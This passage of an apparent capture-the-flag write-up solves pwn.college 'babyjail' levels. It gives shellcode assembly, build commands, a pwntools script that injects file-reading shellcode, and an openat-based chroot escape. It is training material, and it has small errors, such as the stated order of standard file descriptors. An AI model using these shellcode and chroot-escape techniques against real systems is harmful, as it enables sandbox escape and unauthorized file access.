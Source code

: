 ```
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "../../flag"
```
- We can compile the program using `gcc`.
```
~$ gcc -nostdlib ./shellcode.s -o ./shellcode
```
- Let's extract the .text section using `objcopy`.
```
~$ objcopy --dump-section .text=./shellcode.bin ./shellcode
```
- Now we can send this code as STDIN.
```
~$ /challenge/babyjail_level2 / < shellcode.bin
```
- Note that we are in the `hacker` directory.
- The `shellcraft` module from `pwn` allows us to create a shellcode easily. You could also use this method.
- However creating our own shellcode allows us to have more control over it.
```python
from pwn import *

elf = ELF("/challenge/babyjail_level2")

context.arch="amd64"

shellcode = asm(shellcraft.readfile("flag", 1))

p = process(["/challenge/babyjail_level2", "/"], cwd="/")
p.sendline(shellcode)
p.interactive()
```

&nbsp;

## level 3
> You may open a specified file, as given by the first argument to the program (argv[1]).
> You may upload custom shellcode to do whatever you want.

 - On examining the code for this level, we can see that this time we have been put into the jail.
```
assert(chroot(jail_path) == 0);

puts("Moving the current working directory into the jail.\n");
assert(chdir("/") == 0);
```
- That means we cannot just `../../flag` our way to getting the flag.
- Fortunately, there is `openat` syscall in linux which takes as input a directory file descriptor and then the path of the file to be opened relative to the directory.
```
int openat(int dirfd, const char pathname, int flags, mode_t mode);
```
- In our case, the `dirfd` will be `3`, the first three being STDIN, STDERR and STDOUT.
- The `open` syscall would look something like this:
```
# Openat syscall
mov rdi, 3
lea rsi, [rip + flag]
mov rdx, 0
mov r10, 0
mov rax, 0x101
syscall
```